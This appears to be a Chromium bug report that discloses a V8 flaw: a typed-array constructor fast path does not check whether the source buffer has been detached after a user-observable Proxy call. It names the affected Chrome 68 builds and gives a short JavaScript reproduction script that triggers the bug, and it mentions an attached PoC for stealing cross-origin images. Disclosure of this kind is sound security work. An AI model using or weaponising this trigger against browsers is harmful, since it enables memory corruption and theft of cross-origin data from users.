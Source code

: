 <b>VULNERABILITY DETAILS</b>
https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-typed-array-gen.cc?rcl=70d24bb21e7015995b53f06dec6f27afc3823040&l=564

|TypedArrayBuiltinsAssembler::ConstructByArrayLike()| calls |TypedArrayInitialize()| which might be observable to user
JavaScript if |buffer_constructor| is a JSProxy because |JSFunction::GetDerivedMap()| is observable, and then the fast
path of |ConstructByArrayLike()| doesn't check if the source array buffer has been neutered.

<b>VERSION</b>
Google Chrome 68.0.3418.2 (Official Build) dev (64-bit) (cohort: Dev)
Google Chrome 68.0.3421.0 (Official Build) canary (64-bit) (cohort: Clang-64)
Microsoft Windows Version 10.0.16299.371
The bug has been introduced in commit c68f863d7389f396b04f578a461c9fb386eb8535.

<b>REPRODUCTION CASE</b>
<script>
buffer = new ArrayBuffer(1024 * 1024);
buffer.constructor = {[Symbol.species]: new Proxy(function(){}, {get: _ => {
  try {
    postMessage("", "", [buffer]);
  } catch {}
}})};
array1 = new Uint8Array(buffer, 0, 1024);
array2 = new Uint8Array(array1);
</script>

A PoC that can steal cross-origin images is attached.
